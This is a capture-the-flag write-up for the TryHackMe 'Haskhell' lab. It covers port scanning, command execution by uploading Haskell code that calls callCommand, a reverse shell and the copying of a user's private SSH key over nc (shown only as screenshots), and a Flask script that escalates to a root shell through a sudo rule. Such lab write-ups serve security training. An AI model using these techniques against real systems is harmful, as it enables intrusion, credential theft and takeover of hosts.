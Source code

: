------------------

### CTF: TRYHACKME
### LAB: HASKHELL

------------------

![image](https://github.com/user-attachments/assets/39815188-4107-45f4-bf42-317c6944b985)

------------------

### RECONNAISANCE

- Rustscan's output

      ❯ rustscan -a 10.10.245.164 -- -sC -sV
      .----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
      | {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
      | .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
      `-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
      The Modern Day Port Scanner.
      ________________________________________
      : https://discord.gg/GFrQsGy           :
      : https://github.com/RustScan/RustScan :
       --------------------------------------
      🌍HACK THE PLANET🌍
      
      [~] The config file is expected to be at "/home/sensei/.rustscan.toml"
      [!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
      [!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
      Open 10.10.245.164:22
      Open 10.10.245.164:5001
      [~] Starting Script(s)
      [>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")
      
      [~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-27 09:03 EDT
      NSE: Loaded 156 scripts for scanning.
      NSE: Script Pre-scanning.
      NSE: Starting runlevel 1 (of 3) scan.
      Initiating NSE at 09:03
      Completed NSE at 09:03, 0.00s elapsed
      NSE: Starting runlevel 2 (of 3) scan.
      Initiating NSE at 09:03
      Completed NSE at 09:03, 0.00s elapsed
      NSE: Starting runlevel 3 (of 3) scan.
      Initiating NSE at 09:03
      Completed NSE at 09:03, 0.00s elapsed
      Initiating Ping Scan at 09:03
      Scanning 10.10.245.164 [2 ports]
      Completed Ping Scan at 09:03, 0.16s elapsed (1 total hosts)
      Initiating Parallel DNS resolution of 1 host. at 09:03
      Completed Parallel DNS resolution of 1 host. at 09:03, 0.05s elapsed
      DNS resolution of 1 IPs took 0.05s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
      Initiating Connect Scan at 09:03
      Scanning 10.10.245.164 [2 ports]
      Discovered open port 22/tcp on 10.10.245.164
      Discovered open port 5001/tcp on 10.10.245.164
      Completed Connect Scan at 09:03, 0.16s elapsed (2 total ports)
      Initiating Service scan at 09:03
      Scanning 2 services on 10.10.245.164
      Completed Service scan at 09:03, 19.79s elapsed (2 services on 1 host)
      NSE: Script scanning 10.10.245.164.
      NSE: Starting runlevel 1 (of 3) scan.
      Initiating NSE at 09:03
      Completed NSE at 09:04, 26.73s elapsed
      NSE: Starting runlevel 2 (of 3) scan.
      Initiating NSE at 09:04
      Completed NSE at 09:04, 1.14s elapsed
      NSE: Starting runlevel 3 (of 3) scan.
      Initiating NSE at 09:04
      Completed NSE at 09:04, 0.00s elapsed
      Nmap scan report for 10.10.245.164
      Host is up, received conn-refused (0.16s latency).
      Scanned at 2024-08-27 09:03:21 EDT for 49s
      
      PORT     STATE SERVICE REASON  VERSION
      22/tcp   open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
      | ssh-hostkey: 
      |   2048 1d:f3:53:f7:6d:5b:a1:d4:84:51:0d:dd:66:40:4d:90 (RSA)
      | ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQD6azVu3Hr+20SblWk0j7SeT8U3VySD4u18ChyDYyOoZiza2PTe1qsuwnw06/kboHaLejqPmnxkMDWgEeXoW0L11q2D8mfSf8EVvk++7bNqQ0mlkjdcknOs11mdYqSOkM1yw06LolltKtjlf/FpT706QFkRKQO30fT4YgKY6GD71aYdafhTBgZlXA51pGyruDUOP+lqhVPvLZJnI/oOTWkv5kT0a3T+FGRZfEi+GBrhvxP7R7n3QFRSBDPKSBRYLVdlSYXPD83P1pND6F/r3BvyfHw4UY0yKbw+ntvhiRcUI2FYyN5Vj1Jrb6ipCnp5+UcFdmROOHSgWS5Qzzx5fPZB
      |   256 26:7c:bd:33:8f:bf:09:ac:9e:e3:d3:0a:c3:34:bc:14 (ECDSA)
      | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMx1lBsNtSWJvxM159Ahr110Jpf3M/dVqblDAoVXd8QSIEYIxEgeqTdbS4HaHPYnFyO1j8s6fQuUemJClGw3Bh8=
      |   256 d5:fb:55:a0:fd:e8:e1:ab:9e:46:af:b8:71:90:00:26 (ED25519)
      |_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICPmznEBphODSYkIjIjOA+0dmQPxltUfnnCTjaYbc39R
      5001/tcp open  http    syn-ack Gunicorn 19.7.1
      |_http-title: Homepage
      |_http-server-header: gunicorn/19.7.1
      Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

- FFUF's output

![image](https://github.com/user-attachments/assets/5d93beae-8096-4303-8ec9-985fd083d801)

- The `homework1` page states students are to submit some exercises involving haskell programming.The site states that it accepts
only haskell code and compiles,run and renders the output.Most programming languages have modules that allow execution of shell commands and if not properly filtered, it can lead to shell commands execution.

![image](https://github.com/user-attachments/assets/763ba897-f088-44f3-9ddd-014bce05cb97)

- The `submit` route allows us to upload files.I used this haskell code to execute shell commands.

      import System.Process
      
      main = callCommand "<shell commands>"

![image](https://github.com/user-attachments/assets/80778add-3402-4624-a21b-19a84e016c10)

- Reverse shell

![image](https://github.com/user-attachments/assets/5f54a853-bc1c-4ceb-82ae-3a1f93e3a371)


### Pivoting to user `prof`

- I checked user `prof` directory and found his private ssh key.

![image](https://github.com/user-attachments/assets/72e5e411-0223-4b3c-952a-9c52a581bc42)

- I copied it to my machine with nc.

![image](https://github.com/user-attachments/assets/61700436-d7e1-4764-8753-ddb0cb757e24)

![image](https://github.com/user-attachments/assets/79b64576-5483-4814-a427-f060161f957b)

- SSH access

![image](https://github.com/user-attachments/assets/718da839-4ff0-49c0-b15f-88ca7371fc6e)

--------------------------

### PRIVESC with flask

- I ran `sudo -l` and discovered that I can run `flask` binary as root.

![image](https://github.com/user-attachments/assets/f2eb3cff-6a9f-4bca-9939-f56344b68fc0)

- Poc for flask,save with `app.py`

            #! /usr/bin/env python3
            import os
            from flask import Flask,render_template_string
            
            app = Flask(__name__)
            os.setuid(0)
            os.setgid(0)
            os.system("bash -p")
            
            @app.route("/")
            def index():
                return render_template_string("Life tuff ooo!!!!")
            
            if __name__ == "__main__":
               app.run(port=8080,debug=True)

- Set the environmetal variables

      export FLASK_APP=app.py
      export FLASK_ENV=development

- Root

![image](https://github.com/user-attachments/assets/02781bf4-3d16-4e4e-9bd9-be8e23c07191)


----------------------

### REFERENCES

- [Shell Command execution with Haskell](https://stackoverflow.com/questions/3470955/executing-a-system-command-in-haskell)
  
-----------------------

### THANKS FOR READING

-----------------------





  


